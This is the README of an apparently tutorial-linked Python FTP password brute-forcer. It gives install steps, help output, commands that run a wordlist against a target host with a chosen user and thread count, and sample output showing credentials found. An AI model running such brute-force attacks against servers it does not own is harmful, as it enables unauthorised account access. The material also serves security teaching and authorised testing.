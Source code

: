 # [How to Brute Force FTP Servers in Python](https://www.thepythoncode.com/article/brute-force-attack-ftp-servers-using-ftplib-in-python)
To run this:
- `pip3 install -r requirements.txt`
- Use `ftp_cracker.py` for fast brute force:
    ```
    python ftp_cracker.py --help
    ```
    **Output:**
    ```
    usage: ftp_cracker.py [-h] [-u USER] [-p PASSLIST] [-t THREADS] host

    FTP Cracker made with Python

    positional arguments:
    host                  The target host or IP address of the FTP server

    optional arguments:
    -h, --help            show this help message and exit
    -u USER, --user USER  The username of target FTP server
    -p PASSLIST, --passlist PASSLIST
                            The path of the pass list
    -t THREADS, --threads THREADS
                            Number of workers to spawn for logining, default is 30
    ```
- If you want to use the wordlist `wordlist.txt` in the current directory against the host `192.168.1.2` (can be domain or private/public IP address) with the user `user`:
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt
    ```
- You can also tweak the number of threads to spawn (can be faster, default is 30):
    ```
    python ftp_cracker.py 192.168.1.2 -u user -p wordlist.txt --threads 35
    ```
- Output can be something like this:
    ```
    [!] Trying 123456
    [!] Trying 12345
    ...
    [!] Trying sweety
    [!] Trying joseph
    [+] Found credentials:
            Host: 192.168.1.113
            User: test
            Password: abc123
    ```